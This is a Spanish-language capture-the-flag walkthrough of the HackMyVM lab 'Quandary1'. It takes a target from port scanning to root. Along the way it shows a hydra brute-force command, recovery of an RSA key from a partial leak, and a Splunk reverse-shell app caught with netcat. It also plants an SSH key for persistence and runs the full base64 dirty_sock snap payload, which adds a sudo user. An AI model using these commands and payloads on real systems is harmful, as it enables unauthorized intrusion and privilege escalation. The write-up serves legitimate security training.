Pentesting & Ctf Pl4yer
HackMyVm - Quandary1
Autor: Proxy

Escaneo de puertos
❯ nmap -p- -T5 -n -v 192.168.1.14
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8000/tcp open http-alt
8089/tcp open unknown
Escaneo de servicios
❯ nmap -sVC -v -p 22,80,8000,8089 192.168.1.14
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 81560bdc551faa606864239a9ff79cc7 (RSA)
| 256 43f311c7e4bec9bf4f6c1b48f6e41368 (ECDSA)
|_ 256 3cb98d3f70b2311596f8ce952986b785 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Under Construction
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
8000/tcp open http Splunkd httpd
|_http-server-header: Splunkd
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: E60C968E8FF3CC2F4FB869588E83AFC6
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://192.168.1.14:8000/en-US/account/login?return_to=%2Fen-US%2F
| http-robots.txt: 1 disallowed entry
|_/
8089/tcp open ssl/http Splunkd httpd
|_http-server-header: Splunkd
| http-methods:
|_ Supported Methods: GET HEAD OPTIONS
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-02-24T10:44:38
| Not valid after: 2026-02-23T10:44:38
| MD5: 1127d6ec1fa5950702750b6c915fe0a8
|_SHA-1: b8953c0197d051a6febca79f3076760eba701a3a
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry
|_/
HTTP
En el servicio http veo una página en construcción y el dominio quandary.hmv que seguidamente lo añadiré a mi archivo /etc/hosts .
❯ curl -s http://192.168.1.14 | html2text
****** Under Construction ******
We apologize for the inconvenience, but this website is currently under
construction.
Please check back soon for updates! Please contact admin@quandary.hmv for more
information!
Puerto 8000
Aquí tenemos un panel de login de Splunk .

Puerto 8089
Aquí puedo ver que la versión de splunk es la 7.1.9 .

Gobuster
Con gobuster hago una búsqueda de subdominios y encuentra directadmin.quandary.hmv , este también lo añadiré a mi archivo /etc/hosts .
❯ gobuster vhost -u quandary.hmv -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://quandary.hmv
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
Found: directadmin.quandary.hmv
Me voy a directadmin.quandary.hmv y veo un panel de login.

Con hydra aplico fuerza bruta al formulario.
hydra -l admin -P /usr/share/wordlists/rockyou.txt directadmin.quandary.hmv http-post-form "/login.php:uname=^USER^&psw=^PASS^:F=Incorrect username or password" -V -f -I
[80][http-post-form] host: directadmin.quandary.hmv login: admin password: qazxsw
Una vez conectado accedo al dashboard de admin, aquí hay un trozo de una clave rsa pública, otra clave privada y un mensaje.

El mensaje pone lo siguiente: Sólo quería decirte que el otro día te dije que me dejaras aquí tu clave pública y privada. Sólo copiaste la clave pública y creo que tu clave privada no se copió completamente en tu portapapeles. De todas formas mándame un email a admin@quandary.hmv cuando hayas copiado tu clave privada aquí. Hablamos la semana que viene.
Archivo id_rsa .
zfWP0Oewz87090bqRvmdyw5HvVzOnmhQAAAMEA3bbbBmTDBn4E/86brUv/b3nBhMiR1bbx
nIEKyhulHY5mf3KcneltIzfJDRdg/pmjCcGTkAkHc0BN9bLy6d2gQLOlsw9PY/tbXuVp69
LIxDbA4UfeS+/CTrpREVj+rBU1R6DJvJ5pnWSIx+pWEc6M9Ysfi4PQtJgGINxd5BEwyX/g
yHu5gjadvjsUYTpSGq+pEE44tHhAcrrx81F/J2iKYyyJ9iAxvlqPHWL6mhum1W4OofiWDJ
C+O4pw4gKwfuX5AAAAEWxhd3JlbmNlQHF1YW5kYXJ5AQ==
-----END OPENSSH PRIVATE KEY----
Archivo id_rsa.pub .
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMkW1dygI8UCOwrEjjCnceOqjY2DOnw6kUtCs4KAId5f/xeKjx6hsC9Okvm0u/Rs/TiLhqQm+ibpo/EVZ4vvw8XcrEqTdrU60OPiZO+RRUVHdps+SlLAys/h+jopRfEvfeE4G86Kzm0pNwPoiny9ruLDa3ByPjhe3x9Rx9Vb+2KxZtXkEWeC1G8xILp5jG5gwboe6ncRtvTvko31iZCXG4eEAf04tdCitmF11KDoLgnmWsAmGIZoUDGaoydNUEMi2cGiaUiOzvAIvAbUXoZLRcuOVyPv8eHL+hpmk/xPa4hN6z510EBbfiBEgTj12pu1SMQ1E5DsS/d7n+UxEeM0M1ooVic85ttXAY4VzThX/2c6b7o9iPtZ2QtyvFnV2Fb8RgclN3rrk7sLrw6t4YzxyyLLKGviLDEXssPJ7QSQmbA5kEFTTj8ATg2l+VqKbqljvbslTj/KzJiiycUg5RfHMmi7/gAEI9DMIcOCNgYy2CKDv/1K94VYFOBKOT5nAsMF0= lawrence@quandary
Recuperar clave privada a partir de una clave pública débil
Al decodear el id_rsa obtengo esta salida.

Añado AA al inicio del archivo id_rsa .
AAzfWP0Oewz87090bqRvmdyw5HvVzOnmhQAAAMEA3bbbBmTDBn4E/86brUv/b3nBhMiR1bbx
nIEKyhulHY5mf3KcneltIzfJDRdg/pmjCcGTkAkHc0BN9bLy6d2gQLOlsw9PY/tbXuVp69
LIxDbA4UfeS+/CTrpREVj+rBU1R6DJvJ5pnWSIx+pWEc6M9Ysfi4PQtJgGINxd5BEwyX/g
yHu5gjadvjsUYTpSGq+pEE44tHhAcrrx81F/J2iKYyyJ9iAxvlqPHWL6mhum1W4OofiWDJ
C+O4pw4gKwfuX5AAAAEWxhd3JlbmNlQHF1YW5kYXJ5AQ==
-----END OPENSSH PRIVATE KEY-----
Si vuelvo a decodear el id_rsa obtengo una salida distinta donde se puede apreciar el usuario lawrence.

Obtener q.
❯ base64 -d id_rsa | xxd -seek 29 -l 193 -p > ssh_q
❯ cat ssh_q
00ddb6db0664c3067e04ffce9bad4bff6f79c184c891d5b6f19c810aca1b
a51d8e667f729c9de96d2337c90d1760fe99a309c19390090773404df5b2
f2e9dda040b3a5b30f4f63fb5b5ee569ebd2c8c436c0e147de4befc24eba
511158feac153547a0c9bc9e699d6488c7ea5611ce8cf58b1f8b83d0b498
0620dc5de41130c97fe0c87bb982369dbe3b14613a521aafa9104e38b478
4072baf1f3517f27688a632c89f62031be5a8f1d62fa9a1ba6d56e0ea1f8
960c90be3b8a70e202b07ee5f9
Con tr y sponge quito los espacios que hay en el archivo ssh_q .
❯ cat ssh_q | tr -d '\n' | sponge ssh_q
Para los siguientes pasos usaré RsaCtfTool .
❯ git clone https://github.com/RsaCtfTool/RsaCtfTool
❯ cd RsaCtfTool
❯ python3 -m pip install -r requirements.txt
Obtener n y e .
❯ python3 RsaCtfTool.py --dumpkey --key ../id_rsa.pub
n: 4642421543991179019964692016788403177025358063102268524212423228189528596895170405153602445615118419212223226078074453986177472725050022572587024783411210723545417223580795714337658317644600710977643659117646138971288507670714891915567627657016012444148959410342945730970014623180839037352324793504854280898767977521184232703784662443937471871622433994077336438059851303086048286261868207715006857520994317314821143055143592860860368254426653723888757730451605284748162042770667676361851991339230785775821819532309277372272457963213800075499186577460643456066054587133719735722722251521202461419907661026967268418772174427525979398819794375601193383454474268781976098528566869480441959440610281074050975272532072205542487391556023279787075858556906874328679193257003390683054283767394238642958016947628361850991027906221743379943686704898841560306199533457085371947617432419977464891192335343525374168230063727387700039004253
e: 65537
Ignorar el warning...[!] Using native python functions for math, which is slow. install gmpy2 with: 'python3 -m pip install private argument is not set, the private key will not be displayed, even if recovered.
Finalmente generamos la clave privada con el siguiente churraco.

Si todo ha salido bien tendremos nuestra id_rsa.

Me conecto mediante ssh usando la clave privada.
❯ ssh lawrence@192.168.1.14 -i id_rsa_law
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-69-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
-bash-5.0$ script /dev/null -c bash
Script started, file is /dev/null
lawrence@quandary:~$ id
uid=1000(lawrence) gid=1000(lawrence) groups=1000(lawrence)
Aparte de lawrence también existe el usuario admin.
lawrence@quandary:~$ ls -la /home
drwxr-xr-x 5 root root 4096 Mar 26 09:58 .
drwxr-xr-x 20 root root 4096 Feb 26 22:27 ..
drwxr-xr-x 8 admin admin 4096 Mar 26 09:50 admin
drwxr-xr-x 8 lawrence lawrence 4096 Feb 25 09:35 lawrence
En el home de admin hay una directorio splunk-backup y dentro un archivo llamado cred, cred contiene unas credenciales codificadas en hexadecimal.
lawrence@quandary:/home/admin$ cat splunk-backup/cred
61646d696e3a7735564a39692333216f73
lawrence@quandary:/home/admin$ echo "61646d696e3a7735564a39692333216f73" | xxd -p -r;echo
admin:w5VJ9i#3!os
Uso las credenciales encontradas y me logueo en splunk.

Me descargo el archivo tar.
https://github.com/TBGSecurity/splunk_shells/archive/refs/tags/1.3.tar.gz
Para instalar el archivo tar tenéis los pasos en el readme este enlace.
https://github.com/TBGSecurity/splunk_shells
Una vez termina de instalar verifico que se haya instalado correctamente en Manage Apps .

Ahora dejo un netcat a la escucha por el puerto 8888 y voy a Search & Reporting para lanzar una shell.

Obtengo la shell como usuario admin, añado mi id_rsa.pub al archivo authorized_keys para tener una shell interactiva y acceder como usuario admin.
❯ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.14] 42622
id
uid=1001(admin) gid=1001(admin) groups=1001(admin)
echo "tu_id_rsa.pub" > /home/admin/.ssh/authorized_keys
Me conecto por ssh.
❯ ssh admin@192.168.1.14
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-69-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
$ script /dev/null -c bash
Script started, file is /dev/null
admin@quandary:~$
Verifico los permisos que tengo con sudo.
admin@quandary:~$ sudo -l
Matching Defaults entries for admin on quandary:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User admin may run the following commands on quandary:
(ALL : ALL) NOPASSWD: /usr/bin/snap install *
Privesc.
https://notes.vulndev.io/wiki/redteam/privilege-escalation/misc-1
https://initblog.com/2019/dirty-sock/
Me muevo a /tmp y sigo los pasos de la web.
admin@quandary:/tmp$ python3 -c 'print("aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A" * 4256 + "==")' | base64 -d > payload.snap
admin@quandary:/tmp$ sudo snap install /tmp/payload.snap --dangerous --devmode
El exploit ha creado el usuario dirty_sock la contraseña dirty_sock .
admin@quandary:/tmp$ cat /etc/passwd | grep "/bin/bash"
dirty_sock:x:1002:1002::/home/dirty_sock:/bin/bash
Me logueo como usuario dirty_sock.
admin@quandary:/tmp$ su dirty_sock
Password:
bash-5.0$ id
uid=1002(dirty_sock) gid=1002(dirty_sock) groups=1002(dirty_sock),27(sudo)
Verifico de nuevo los permisos con sudo.
bash-5.0$ sudo -l
[sudo] password for dirty_sock:
Matching Defaults entries for dirty_sock on quandary:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User dirty_sock may run the following commands on quandary:
(ALL : ALL) ALL
Obtengo el root.
bash-5.0$ sudo su
root@quandary:/tmp# id;hostname
uid=0(root) gid=0(root) groups=0(root)
quandary
Y con esto termina esta larga pero interesante máquina del sr Proxy, nos vemos!.
Agradecimientos al sr RiJaba1 y PL4GU3 por su ayuda ;)